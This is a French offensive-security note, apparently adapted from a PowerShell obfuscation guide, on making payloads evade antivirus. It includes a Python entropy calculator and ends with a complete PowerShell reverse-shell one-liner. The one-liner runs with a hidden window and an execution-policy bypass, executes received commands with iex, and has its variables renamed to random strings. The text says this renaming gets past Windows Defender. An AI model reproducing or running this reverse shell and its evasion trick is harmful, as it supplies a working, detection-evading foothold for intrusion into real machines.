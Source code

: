 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropie__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python :

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__

Il est important de renommer le nom de nos variables en respectant le concept de [Entropie](PowerShell_Obfuscation.md#__Entropie__), cela rend le travail plus difficile pour les antivirus.

Voici un code détecté par les antivirus classique dont windows defender :

![[renameObj1.png]]

En remplaçant le nom des variables ainsi que **`(pwd).Path`** par **`$(gl)`**, on obtient un code que les antivirus ne découvre pas. 

```powershell
powershell -noni -ep bypass -windowstyle hidden -c "`$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); `$3b95c1d3d7dc4e4fa6474ce1bceae743 = `$84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] `$367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while((`$d084ee484cf44c09b003024847840f3d = `$3b95c1d3d7dc4e4fa6474ce1bceae743.Read(`$367ad63a4a834bf5bb275aab24a4890c, 0, `$367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; `$b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(`$367ad63a4a834bf5bb275aab24a4890c,0, `$d084ee484cf44c09b003024847840f3d); `$b396f8bb13ec47c28e4f721085e95361 = (iex `$b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); `$2bfb84697b834fa09479071ec68d6b19 = `$b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; `$12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes(`$2bfb84697b834fa09479071ec68d6b19); `$3b95c1d3d7dc4e4fa6474ce1bceae743.Write(`$12e0e1f0c5e14474b53907ee11f75ed7,0, `$12e0e1f0c5e14474b53907ee11f75ed7.Length);`$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; `$84b5d7ab8755451cb386a79589e39fa8.Close()"
```



